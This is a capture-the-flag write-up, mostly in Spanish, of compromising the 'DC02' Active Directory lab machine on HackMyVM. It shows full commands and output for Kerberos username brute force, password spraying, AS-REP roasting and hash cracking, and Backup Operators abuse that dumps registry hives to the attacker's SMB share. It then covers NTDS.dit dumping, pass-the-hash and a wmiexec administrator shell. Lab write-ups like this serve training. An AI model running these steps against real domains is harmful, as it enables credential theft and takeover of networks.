




+++
author = "Andrés Del Cerro"
title = "HackMyVM: DC02 Writeup | Medium"
date = "2024-10-03"
description = ""
tags = [
    "HackMyVM",
    "DC02",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Network Security",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "SMB Enumeration",
    "LDAP Enumeration",
    "Username Bruteforce",
    "Abusing Kerberos",
    "ASREPRoast",
    "Cracking TGT",
    "Cracking",
    "Hash Cracking",
    "Password Cracking",
    "Abusing Backup Operators",
    "SAM Dumping",
    "NTDS.dit Dumping",
    "Credentials Reuse",
    "Abusing WMI"
]

+++

# Hack The Box: DC02 Writeup

Welcome to my detailed writeup of the medium difficulty machine **"DC02"** on HackMyVM. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 192.168.182.4 --ulimit 5000 -g
                                                       
192.168.182.4 -> [53,88,139,389,445,464,593,3268,135,5985,9389,49664,49668,49670,49683]
```

```console
$ nmap -p53,88,139,389,445,464,593,3268,135,5985,9389,49664,49668,49670,49683 -sCV 192.168.182.4 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-03 14:35 CEST
Nmap scan report for 192.168.182.4
Host is up (0.00022s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-03 19:35:45Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49683/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27:60:54:69 (Oracle VirtualBox virtual NIC)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:60:54:69 (Oracle VirtualBox virtual NIC)
|_clock-skew: 7h00m03s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-10-03T19:36:33
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.21 seconds
```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 192.168.182.4 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-03 14:37 CEST
Nmap scan report for 192.168.182.4
Host is up (0.00064s latency).
Not shown: 1495 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp
137/udp open  netbios-ns
389/udp open  ldap
MAC Address: 08:00:27:60:54:69 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.90 seconds
```

Del escaneo inicial encontramos el dominio `SOUPEDECODE.LOCAL`, lo añadimos al `/etc/hosts`

No encontramos mucha información relevante, así que vamos a empezar con la enumeración de los servicios.

# SMB Enumeration
No podemos enumerar los recursos compartidos a nivel de red utilizando una null session, así que vamos a otra cosa.
```console
┌─[192.168.182.5]─[pointedsec@parrot]─[~/Desktop/dc02/scan]
└──╼ [★]$ smbmap -H 192.168.182.4 -u ''
[!] Authentication error on 192.168.182.4
┌─[192.168.182.5]─[pointedsec@parrot]─[~/Desktop/dc02/scan]
└──╼ [★]$ smbmap -H 192.168.182.4 -u 'null'
[!] Authentication error on 192.168.182.4
┌─[192.168.182.5]─[pointedsec@parrot]─[~/Desktop/dc02/scan]
└──╼ [★]$ smbclient -L \\192.168.182.4 -U 'null' -N
session setup failed: NT_STATUS_LOGON_FAILURE
```

# LDAP Enumeration
Para enumerar el LDAP pasa lo mismo.
```console
$ ldapsearch -x -H ldap://192.168.182.4 -D '' -w '' -b "DC=SOUPEDECODE,DC=LOCAL"
# extended LDIF
#
# LDAPv3
# base <DC=SOUPEDECODE,DC=LOCAL> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A58, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4f7c

# numResponses: 1
```

# RPC Enumeration
Tampoco podemos enumerar RPC de forma anónima.
```console
$ rpcclient -N -U "" 192.168.182.4 
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```

# Username Bruteforce
En este punto tampoco podemos hacer nada, solo nos queda aprovecharnos del Kerberos y utilizar `kerbrute` para intentar conseguir una lista de usuarios válidos.

Spray & Pray.

Y encontramos algunos usuarios.
```console
$ /opt/kerbrute userenum --dc 192.168.182.4 -d soupedecode.local /opt/SecLists/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 10/03/24 - Ronnie Flathers @ropnop

2024/10/03 14:49:27 >  Using KDC(s):
2024/10/03 14:49:27 >   192.168.182.4:88

2024/10/03 14:49:27 >  [+] VALID USERNAME:       admin@soupedecode.local
2024/10/03 14:49:27 >  [+] VALID USERNAME:       charlie@soupedecode.local
2024/10/03 14:49:27 >  [+] VALID USERNAME:       Charlie@soupedecode.local
2024/10/03 14:49:28 >  [+] VALID USERNAME:       administrator@soupedecode.local
2024/10/03 14:49:28 >  [+] VALID USERNAME:       Admin@soupedecode.local
2024/10/03 14:49:32 >  [+] VALID USERNAME:       Administrator@soupedecode.local
2024/10/03 14:49:32 >  [+] VALID USERNAME:       CHARLIE@soupedecode.local
```

Los que mas me llaman la atención son `admin` y `charlie`, así que vamos a crearnos una lista usuarios con estos dos usuarios.

Haciendo password spraying con estos usuarios encontramos una credencial.
`charlie:charlie`
```console
$ nxc smb 192.168.182.4 -u users.txt -p users.txt  --continue-on-success
SMB         192.168.182.4   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\admin:admin STATUS_LOGON_FAILURE
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\charlie:admin STATUS_LOGON_FAILURE
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:admin STATUS_LOGON_FAILURE
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\admin:charlie STATUS_LOGON_FAILURE
SMB         192.168.182.4   445    DC01             [+] SOUPEDECODE.LOCAL\charlie:charlie 
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:charlie STATUS_LOGON_FAILURE
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\admin:Administrator STATUS_LOGON_FAILURE
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:Administrator STATUS_LOGON_FAILURE
```

La verdad que bastante fácil para ser una máquina de dificultad media por ahora.

# Authenticated SMB Enumeration

Vemos los típicos recursos compartidos a nivel de red, nada interesante a simple vista.
```console
$ smbmap -H 192.168.182.4 -u charlie -p charlie
[+] IP: 192.168.182.4:445       Name: SOUPEDECODE.LOCAL                                 
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 

```

Vamos a revisar el recurso `SYSVOL` ya que a veces se guardan scripts interesantes.

Pero no encontramos nada interesante.
```console
smb: \SOUPEDECODE.LOCAL\scripts\> dir
  .                                   D        0  Sat Jun 15 21:21:21 2024
  ..                                  D        0  Sat Jun 15 21:30:47 2024

                12942591 blocks of size 4096. 10927574 blocks available
```

# Authenticated LDAP Enumeration
Ahora que tenemos credenciales válidas, vamos a intentar enumerar el LDAP.

Podemos con `ldapdomaindump` extraer en formato HTML de una forma cómoda información relacionada con el dominio.
```console
$ ldapdomaindump -u "SOUPEDECODE.LOCAL\charlie" -p charlie 192.168.182.4 --no-json
 --no-grep -o domaindump                                                                  
[*] Connecting to host...                                                                 
[*] Binding to host                                                                       
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

Ahora en el directorio `domaindump` vemos que tenemos varios archivos HTML.
```console
$ ls
domain_computers_by_os.html  domain_policy.html          domain_users.html
domain_computers.html        domain_trusts.html
domain_groups.html           domain_users_by_group.html
```

Los podemos servir por el puerto 8081, por ejemplo.
```console
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Y ahora a través del navegador visualizarlos.


Al ver los usuarios nos damos cuenta de que hay muchos usuarios, esto me gusta porque suele ser así en un entorno real de directorio activo.


Vemos que en el grupo `Backup Operators` existe un usuario, esto nos interesa porque los usuarios de este grupo tienen privilegios interesantes que nos puede servir para escalar privilegios.


Y como hemos visto antes, también existe un usuario `admin` que es administrador del dominio.


Como hay tantos usuarios, quiero crear una lista de estos, vamos a repetir el `ldapdomaindump` pero sin la flag de `--no-grep` para poder hacer una expresión regular y quedarnos con los usuarios.
```console
$ ldapdomaindump -u "SOUPEDECODE.LOCAL\charlie" -p charlie 192.168.182.4 --no-json -o domaindump
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

Nos quedamos con el campo `SAM Name` que corresponde al 5 campo.
```console
$ cat domain_users.grep | awk '{print $5}' >> ../users.txt 
```

Y tenemos una lista de todos los usuarios del dominio.
```console
$ tail users.txt
ctracy513
ffelix512
amona511
klila510
czach509
quma508
jrachel506
arose505
hmike504
cleo503
```

968 usuarios, aunque alguno está repetido.
```console
$ wc -l users.txt 
968 users.txt
```

# ASREPRoast
Con una lista tan grande de usuarios, una buena práctica es ejecutar un ASREPRoast para detectar usuarios que tengan el atributo DONT_REQUIRE_PREAUTH para intentar crackear el TGT de forma offline.

Esto lo podemos hacer con `GetNPUsers.py` de la suite de `impacket`
```console
$ impacket-GetNPUsers -no-pass -usersfile users.txt SOUPEDECODE.LOCAL/ | grep -v "doesn't"              
                                                                                                                
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation                                                        
                                                                                                                
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)                   
$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:4a9d54d3b2f1de250e043c447e30b331$7944ae2f3f3cc0470c59d68cf451afc2147b0d1e70ac1b9969f109c9a8e6
a9ca2af973a1f3d2a70040689025de9695eb7f5f8afb3b15e59e0230b97172b667c0f5345497bfedce477e22730a58befa67e0d9498f37cccb6264489d6bcfab63722bfb
e6fed33e3818438c10f21b5c603dece7774f3f01f0e79b629936afbef589f0b1f34fc8abdfb39b5028032c02bb6491aeeb0cae9990de9b79de44011909c40302d8ca3a72
3c7588d97c8b509604d0c6e8ed81146b91b208956825f1fdeda1d01ff032c1dadc49b86f647aa929c0b5008c3b16ea68324cac3487a8f9fa4e47967a21d9cd93494b1d64
bda99053e1813cb0943da629                                                                                        
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)                   
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)                                           
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)                                           
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)  
```

Y hemos encontrado que el usuario `zximena448` no requiere pre-autenticación en kerberos.

Nos guardamos el hash.
```console
$ cat hashes 
$krb5asrep$zximena448@SOUPEDECODE.LOCAL:d7821ecb2cf32c0fdc678fe1ae4ee5e8$6265255ef918929981ee2e56636d896582ba8648374a8e0c2b1bda6ef5a68717a6a9ef094aa526bb90d42d6a6cb011d2e15df6ba074056e5ea50cd5229bfa4d0ad27f58a1d9b5d27350fbef49bfc65f84899b9e9f2217ab40c802cd8adceaca33e46ec04bb68952c3996ec1161db4a64efc2cdfb16b21b95b53380ccc60c2f6389ea9dac8ea5f38b11c6c4d8a23de08528ab66a0096fb60e932e9da9f916cc1e7f37daa054b52fd52d50c17a307d7a6aa5a92bf4ea5d400703fdbb739c056a5398e7d37af73e6075dcdae169adcd0cd1aa2b637f083acad5f6edd890068ba9017c08e58864c7ed892fa46ace06c2ee7d8e080f9b217d
```

Y con `john` lo vamos a intentar crackear.
```console
$ john -w=/usr/share/wordlists/rockyou.txt hashes 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
internet         ($krb5asrep$zximena448@SOUPEDECODE.LOCAL)     
1g 0:00:00:00 DONE (2024-10-03 15:10) 100.0g/s 102400p/s 102400c/s 102400C/s 123456..bethany
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Y vemos que la credencial es `internet`

Podemos probarlo con `netexec`
```console
 nxc smb 192.168.182.4 -u zximena448 -p internet
SMB         192.168.182.4   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.182.4   445    DC01             [+] SOUPEDECODE.LOCAL\zximena448:internet 
```

Ahora recordemos que este es el usuario que pertenecía al grupo `Backup Operators`

# SMB Enumeration (again)
```console
$ smbmap -H 192.168.182.4 -u zximena448 -p internet
[+] IP: 192.168.182.4:445       Name: SOUPEDECODE.LOCAL                                 
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  READ ONLY       Remote Admin
        C$                                                      READ, WRITE     Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share
```

Vemos que podemos acceder al recurso `C$` que corresponde al disco duro del DC.

Gracias a esto, podemos descargarnos la flag de usuario.
```console
smb: \Users\zximena448\Desktop\> get user.txt
getting file \Users\zximena448\Desktop\user.txt of size 33 as user.txt (4,0 KiloBytes/sec) (average 4,0 KiloBytes/sec)
```

```console
$ cat user.txt 
2fe79eb0e02ecd4dd...
```

# Privilege Escalation
## Abusing Backup Operators Group -> Dumping SAM Remotely 
Aunque no tengamos una consola en la máquina víctima, podemos dumpear remotamente la SAM, y los registros SYSTEM y SECURITY para recuperar los hashes de los usuarios del sistema y hacer Pass The Hash para escalar privilegios.

Podemos utilizar [este PoC](https://github.com/horizon3ai/backup_dc_registry) para realizar esto.

Clonamos el repositorio.
```console
$ git clone https://github.com/horizon3ai/backup_dc_registry                                            
Cloning into 'backup_dc_registry'...                                                                            
remote: Enumerating objects: 8, done.                                                                           
remote: Counting objects: 100% (8/8), done.                                                                     
remote: Compressing objects: 100% (7/7), done.
remote: Total 8 (delta 0), reused 5 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (8/8), 129.91 KiB | 1.18 MiB/s, done.
```

Vamos con `impacket-smbserver` a crear temporalmente un servidor SMB para copiar los archivos que vamos a dumpear.
```console
$ sudo impacket-smbserver -smb2support smbFolder .
```

Y el PoC funciona a la perfección aparentemente.
```console
$ python3 reg.py zximena448:"internet"@192.168.182.4 backup -p '\\192.168.182.5\smbFolder\'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation 

Dumping SAM hive to \\192.168.182.5\smbFolder\\SAM
Dumping SYSTEM hive to \\192.168.182.5\smbFolder\\SYSTEM 
Dumping SECURITY hive to \\192.168.182.5\smbFolder\\SECURITY
```

Vemos los tres archivos.
```console
 ls
SAM  SECURITY  SYSTEM
```

Así que ahora con `impacket-secretsdump` podemos dumpear el valor de la SAM
```console
$ impacket-secretsdump LOCAL -system SYSTEM -security SECURITY -sam SAM
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x0c7ad5e1334e081c4dfecd5d77cc2fc6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:0bef7790d333df3e4328f99e30c304cbb4a7485fffa8e3a777ce7243673a45aa52aa9ee08709043f64a8ca47610941f3c6889ea546d236dd70b20a333d070758094fe50e9b8295e3dcfef603d096d2464b403c47b116abdbac18b3634694c5f02991f9dcef67d1322939b37014a6d7a72dad3466962db2f76447a66481766bf48580f6702229f353fd3b0f3adeb2148c90520d05cd2632b14960c3391ee5fc625dafd3a36050392a75b3e472139203291f364eb9c4df32fcc882a411ef6a7755aad4435d8ea6b30f49ccbfd60e6bcf14684d6813d9397cf35a2e124c35fc8207bb6d75fb82ffae8d83477970dc9f88dd
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:af48f2010d257a514430b66fa469a554
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x829d1c0e3b8fdffdc9c86535eac96158d8841cf4
dpapi_userkey:0x4813ee82e68a3bf9fec7813e867b42628ccd9503
[*] NL$KM 
 0000   44 C5 ED CE F5 0E BF 0C  15 63 8B 8D 2F A3 06 8F   D........c../...
 0010   62 4D CA D9 55 20 44 41  75 55 3E 85 82 06 21 14   bM..U DAuU>...!.
 0020   8E FA A1 77 0A 9C 0D A4  9A 96 44 7C FC 89 63 91   ...w......D|..c.
 0030   69 02 53 95 1F ED 0E 77  B5 24 17 BE 6E 80 A9 91   i.S....w.$..n...
NL$KM:44c5edcef50ebf0c15638b8d2fa3068f624dcad95520444175553e85820621148efaa1770a9c0da49a96447cfc896391690253951fed0e77b52417be6e80a991
[-] NTDSHashes.__init__() got an unexpected keyword argument 'ldapFilter'
[*] Cleaning up... 
```

Pero al probar este hash con `netexec` vemos que no es válido. Esto es porque el SAM que hemos dumpeado es de las cuentas locales de la máquina, no del dominio, ya que en entorno de Directorio Activo estas se almacenan en el NTDS.dit

```console
$ nxc smb 192.168.182.4 -u 'Administrator' -H 209c6174da490caeb422f3fa5a7ae634
SMB         192.168.182.4   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.182.4   445    DC01             [-] SOUPEDECODE.LOCAL\Administrator:209c6174da490caeb422f3fa5a7ae634 STATUS_LOGON_FAILURE
```

## Dumping NTDS.dit -> Abusing Local Machine Credentials Reuse
También vemos que el hash es válido para la cuenta del equipo.
```console
$ nxc smb 192.168.182.4 -u 'DC01$' -H af48f2010d257a514430b66fa469a554
SMB         192.168.182.4   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.182.4   445    DC01             [+] SOUPEDECODE.LOCAL\DC01$:af48f2010d257a514430b66fa469a554
```

Entonces con `impacket-secretsdump` podemos intentar dumpear el NTDS.dit pero utilizando la cuenta local del sistema ya que esta si que se está reutilizando la credencial.

Y no os asustéis porque os va a dumpear todos los hashes de todos los usuarios del dominio, pero obviamente nos interesa el del administrador.
```console
$ secretsdump.py SOUPEDECODE.LOCAL/DC01\$@192.168.182.4 -hashes :af48f2010d257a514
430b66fa469a554                               
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra
                      
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8982babd4da89d33210779a6c5b078bd:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fb9d84e61e78c26063aced3bf9398ef0:::
soupedecode.local\bmark0:1103:aad3b435b51404eeaad3b435b51404ee:d72c66e955a6dc0fe5e76d205a6
30b15:::
```

Y ahora sí que `netexec` nos reporta que podemos ganar una consola interactiva como administrador.
```console
$ nxc smb 192.168.182.4 -u Administrator -H 8982babd4da89d33210779a6c5b078bd
SMB         192.168.182.4   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         192.168.182.4   445    DC01             [+] SOUPEDECODE.LOCAL\Administrator:8982babd4da89d33210779a6c5b078bd (Pwn3d!)
```

Y para terminar, con `wmiexec` podemos ganar una consola interactiva como administrador.
```console
$ wmiexec.py -hashes :8982babd4da89d33210779a6c5b078bd Administrator@192.168.182.4Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
soupedecode\administrator
```

Podemos leer la flag de `root`
```console
C:\Users\Administrator\Desktop>type root.txt
d41d8cd98f00b204e...
```

¡Y ya estaría!

Happy Hacking! 🚀